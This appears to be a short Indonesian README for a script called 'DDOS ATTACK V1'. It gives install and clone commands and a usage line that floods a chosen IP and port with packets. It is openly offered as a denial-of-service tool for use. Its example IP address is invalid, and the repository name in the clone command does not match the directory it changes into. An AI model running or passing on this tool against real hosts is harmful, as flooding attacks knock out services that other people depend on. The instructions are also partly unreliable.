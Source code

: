 # DDOS ATTACK V1
Cara Penggunaan:
$pkg install python2
$pkg install git
$git clone https://github.com/BagusXyz/DDOS-ATTACKV
$cd DDOS-ATTACKV1
$python2 DDOS.py <ip> <port> <packet>
Contoh:$python2 DDOS.py 123.45.678.99 8080 100
IP target: 123.45.678.99
Port: 8080
Packet: 100
	
	
	
	
	
	
